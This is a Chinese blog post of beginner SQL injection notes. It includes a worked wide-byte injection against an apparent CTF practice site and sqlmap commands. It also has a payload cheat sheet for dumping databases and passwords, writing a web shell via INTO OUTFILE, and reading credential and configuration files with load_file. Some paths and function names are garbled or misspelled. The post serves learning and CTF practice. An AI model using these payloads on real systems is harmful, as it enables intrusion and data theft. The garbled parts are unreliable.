

前言
内容是网上收集的，可能存在错误
SQL注入的分类
在《web安全深度剖析》这本书中作者张炳帅前辈认为SQL注入只分为数字型与字符型，其他的注入不过是这两大类型的不同展现形式，或不同展现位置罢了。Emma可能是我书读的少，我感觉说的很对。
这是一些前辈们的总结
按变量类型分类
- 数字型
- 字符型
按HTTP提交方式分类
- GET注入
- POST注入
- Cookie注入
按注入方式分类
- 报错注入
- 盲注
- 布尔盲注
- 时间盲注
- union注入
编码问题
- 宽字节注入
MySQL 5.0以上和MySQL 5.0以下版本的区别
MySQL 5.0以上版本存在一个存储着数据库信息的信息数据库–INFORMATION_SCHEMA ，其中保存着关于MySQL服务器所维护的所有其他数据库的信息。如数据库名，数据库的表，表栏的数据类型与访问权限等。而5.0以下没有。
INFORMATION_SCHEMA 库
系统数据库，记录当前数据库的数据库，表，列，用户权限等信息
SCHEMATA表
储存mysql所有数据库的基本信息，包括数据库名，编码类型路径等
我们需要记住该表中记录数据库库名的字段名为SCHEMA_NAME。
TABLES表
储存mysql中的表信息，包括这个表是基本表还是系统表，数据库的引擎是什么，表有多少行，创建时间，最后更新时间等
我们需要记住该表中记录数据库名和表名的字段名分别为TABLE_SCHEMA和TABLE_NAME。
COLUMNS表
储存mysql中表的列信息，包括这个表的所有列以及每个列的信息，该列是表中的第几列，列的数据类型，列的编码类型，列的权限，列的注释等
我们需要记住该表中记录数据库库名、表名和字段名的字段名为TABLE_SCHEMA、TABLE_NAME和COLUMN_NAME。
常用的关于information_schema库的SQL语句
需要记住的几个函数
- database()：当前网站使用的数据库
- version()：当前MySQL的版本
- user()：当前MySQL的用户
limit的用法
limit m,n 其中m是指记录开始的位置，从0开始，表示第一条记录；n是指取n条记录。
查询数据表
.... union select table_name from information_schema.tables where table_schema=database();
.... union select group_concat(table_name) from information_schema.tables where table_schema=database();mysql的联合查询会把所有的查询结果返回到第一个查询的字段下，在注入过程中常让第一个查询结果错误，这样就只显示你联合查询的结果了
查询字段
union select 1,group_concat(column_name),3,4 from information_schema.columns where table_name='你查询出来的表名'一句话总结
查询数据表与表字段的时候会用到information_schema库
SQL注入的基本流程
判断是否存在注入点
判断注入类型
猜字段数量
order by 1;后面加数字是对查询的第几列排序，从而实现判断字段的个数的目的
迭代1~n,直到页面出错（也就是数据库报错了，里面没有这一列。）
order by 5 页面正常
order by 6 页面错误
共有6个字段
看看那个字段回显
.... union select 1,2,3,4;
看回显什么数字，就可以知道那个字段回显。
查询数据库名，版本，用户
.... union select 1,database(),3,4;
...........version()..
...........user()..
查询数据表
.... union select table_name from information_schema.tables where table_schema=database();
.... union select group_concat(table_name) from information_schema.tables where table_schema=database();
查询字段
union select 1,group_concat(column_name),3,4 from information_schema.columns where table_name='你查询出来的表名'
查询数据
union selcet 1,group_concat(要查询的字段1,字段2,....字段n),3,4 from 数据表;
union select 1,(select group_concat(字段) from 数据表),3,4;
宽字节注入
宽字节注入产生的原因
宽字节注入就是用一个大于128的十六进制数来吃掉转义符\，gbk编码，字节作为一个字符的编码.
宽字节注入的手工注入方法
1、判断列数：
http://chinalover.sinaapp.com/SQL-GBK/index.php?id=%df%27 order by 1%23
http://chinalover.sinaapp.com/SQL-GBK/index.php?id=%df%27 order by 2%23
http://chinalover.sinaapp.com/SQL-GBK/index.php?id=%df%27 order by 3%23
order by 3 时报错，说明只有两列。
2、各类信息：
http://chinalover.sinaapp.com/SQL-GBK/index.php?id=%df%27 and 1=2
union select 2,(concat_ws(char(32,58,32),user(),database(),version()))%23
sae-chinalover@123.125.23.212 : sae-chinalover : 5.5.52-0ubuntu0.14.04.1
3、库名：
http://chinalover.sinaapp.com/SQL-GBK/index.php?id=%df%27 and 1=2 union select 2,database()%23
sae-chinalover
4、表名：
http://chinalover.sinaapp.com/SQL-GBK/index.php?id=%df%27 and 1=2
union select 2,group_concat(table_name)
from information_schema.tables
where table_schema=database()%23
ctf,ctf2,ctf3,ctf4,news
5、ctf4表的列名：
http://chinalover.sinaapp.com/SQL-GBK/index.php?id=%df%27 and 1=2
union select 2,group_concat(column_name)
from information_schema.columns
where table_name=0x63746634%23
id,flag
这里注意：要将表名ctf4转为16进制
这里提供一个字符串转16进制的网站：
http://www.5ixuexiwang.com/str/hex.php
转了16进制之后记得在前面加上0x
6、flag列的数据：
http://chinalover.sinaapp.com/SQL-GBK/index.php?id=%df%27 and 1=2
union select 2,(select flag from ctf4)%23
flag{this_is_sqli_flag}
使用SQLmap进行宽字节注入
sqlmap跑法
1、查看有哪些库：
sqlmap.py -u “http://chinalover.sinaapp.com/SQL-GBK/index.php?id=3" –tamper unmagicquotes –dbs
这个时侯就要用到一个脚本了：
脚本名：unmagicquotes.py
作用：宽字符绕过
2、表名：
sqlmap.py -u “http://chinalover.sinaapp.com/SQL-GBK/index.php?id=3" –tamper unmagicquotes -D sae-chinalover –tables
3、列名：
sqlmap.py -u “http://chinalover.sinaapp.com/SQL-GBK/index.php?id=3" –tamper unmagicquotes -D sae-chinalover -T ctf4 –columns
4、flag列的数据：
sqlmap.py -u “http://chinalover.sinaapp.com/SQL-GBK/index.php?id=3" –tamper unmagicquotes -D sae-chinalover -T ctf4 -C flag
区分concat_ws()与group_concat()函数
concat_ws(char(32,58,32),user(),database(),version())
在concat_ws函数中，第一个参数是用于作为分隔符将后面各个参数的内容分隔开来再进行相应的连接产生新的字符串。
group_connect() 函数
完整的语法如下：
group_concat([DISTINCT] 要连接的字段 [Order BY ASC/DESC 排序字段] [Separator ‘分隔符’])
功能：将group by产生的同一个分组中的值连接起来，返回一个字符串结果
说明：通过使用distinct可以排除重复值；如果希望对结果中的值进行排序，可以使用order by子句；separator是一个字符串值，缺省为一个逗号。
图一，区别

常用语句
判断是否存在SQL注入
and 1=1
and 1=2
暴字段长度
Order by 数字
匹配字段
and 1=1 union select 1,2,…,n
暴字段位置
and 1=2 union select 1,2,…,n
利用内置函数暴数据库信息
version() database() user()
不用猜解可用字段暴数据库信息(有些网站不适用):
and 1=2 union all select version()
and 1=2 union all select database()
and 1=2 union all select user()
操作系统信息：
and 1=2 union all select @@global.version_compile_os from mysql.user
数据库权限：
and ord(mid(user(),1,1))=114 返回正常说明为root
暴库 (mysql>5.0)
Mysql 5 以上有内置库 information_schema，存储着mysql的所有数据库和
表结构信息
and 1=2 union select 1,2,3,SCHEMA_NAME,5,6,7,8,9,10 from
information_schema.SCHEMATA limit 0,1
猜表
and 1=2 union select 1,2,3,TABLE_NAME,5,6,7,8,9,10 from
information_schema.TABLES where TABLE_SCHEMA=数据库（十六进制） limit 0（开始的记录，0为第一个开始记录）,1（显示1条记录）—
猜字段
and 1=2 Union select 1,2,3,COLUMN_NAME,5,6,7,8,9,10 from
information_schema.COLUMNS where TABLE_NAME=表名（十六进制）limit 0,1
暴密码
and 1=2 Union select 1,2,3,用户名段,5,6,7,密码段,8,9 from 表名 limit 0,1高级用法（一个可用字段显示两个数据内容）：
Union select 1,2,3concat(用户名段,0x3c,密码段),5,6,7,8,9 from 表名 limit 0,1
直接写马(Root权限)
条件：
1、知道站点物理路径
2、有足够大的权限（可以用select …. from mysql.user测试）
3、magic_quotes_gpc()=OFF
select ‘’ into outfile ‘物理路径’
and 1=2 union all select 一句话HEX值 into outfile ‘路径’
load_file() 常用路径：
1、 replace(load_file(0×2F6574632F706173737764),0×3c,0×20)
2、replace(load_file(char(47,101,116,99,47,112,97,115,115,119,100)),char(60),char(32))
上面两个是查看一个PHP文件里完全显示代码.有些时候不替换一些字符,如 “<” 替换成”空格” 返回的是网页.而无法查看到代码.
3、 load_file(char(47)) 可以列出FreeBSD,Sunos系统根目录
4、/etc tpd/conf tpd.conf或/usr/local/apche/conf tpd.conf 查看linux APACHE虚拟主机配置文件
5、c:\Program Files\Apache Group\Apache\conf \httpd.conf 或C:\apache\conf \httpd.conf 查看WINDOWS系统apache文件
6、c:/Resin-3.0.14/conf/resin.conf 查看jsp开发的网站 resin文件配置信息.
7、c:/Resin/conf/resin.conf /usr/local/resin/conf/resin.conf 查看linux系统配置的JSP虚拟主机
8、d:\APACHE\Apache2\conf\httpd.conf
9、C:\Program Files\mysql\my.ini
10、…/themes/darkblue_orange/layout.inc.php phpmyadmin 爆路径
11、 c:\windows\system32\inetsrv\MetaBase.xml 查看IIS的虚拟主机配置文件
12、 /usr/local/resin-3.0.22/conf/resin.conf 针对3.0.22的RESIN配置文件查看
13、 /usr/local/resin-pro-3.0.22/conf/resin.conf 同上
14 、/usr/local/app/apache2/conf/extra tpd-vhosts.conf APASHE虚拟主机查看
15、 /etc/sysconfig/iptables 本看防火墙策略
16 、 usr/local/app/php5 b/php.ini PHP 的相当设置
17 、/etc/my.cnf MYSQL的配置文件
18、 /etc/redhat-release 红帽子的系统版本
19 、C:\mysql\data\mysql\user.MYD 存在MYSQL系统中的用户密码
20、/etc/sysconfig/network-scripts/ifcfg-eth0 查看IP.
21、/usr/local/app/php5 b/php.ini //PHP相关设置
22、/usr/local/app/apache2/conf/extra tpd-vhosts.conf //虚拟网站设置
23、C:\Program Files\RhinoSoft.com\Serv-U\ServUDaemon.ini
24、c:\windows\my.ini
25、c:\boot.ini
网站常用配置文件 config.inc.php、config.php。load_file（）时要用replace（load_file(HEX)，char(60),char(32)）
注：
Char(60)表示 <
Char（32）表示 空格
手工注射时出现的问题：
当注射后页面显示：
Illegal mix of collations (latin1_swedish_ci,IMPLICIT) and (utf8_general_ci,IMPLICIT) for operation ‘UNION’
如：/instrument.php?ID=13 and 1=2 union select 1,load_file(0x433A5C626F6F742E696E69),3,4,user()
这是由于前后编码不一致造成的，
解决方法：在参数前加上 unhex(hex(参数))就可以了。上面的URL就可以改为：
/instrument.php?ID=13 and 1=2 union select 1,unhex(hex(load_file(0x433A5C626F6F742E696E69))),3,4,unhex(hex(user()))
常见函数
length()
substr()
updataxml()
sleep()
benchmark()
if(expr1,expr2,expr3)
if(length(database())>5,sleep(5),1)
@@datadir
数据库文件所在位置
@@version_compile_os
查看当前操作系统
concat()
concat_ws()
0x7e ASCII ~
php
preg_math()
floor()
html实体编码

- 本文链接：https://self-ferry.github.io/2020/12/02/%E5%88%9D%E5%AD%A6SQLinjection/
- 版权声明：本博客所有文章除特别声明外，均默认采用 许可协议。
若没有本文 Issue，您可以使用 Comment 模版新建。
GitHub Issues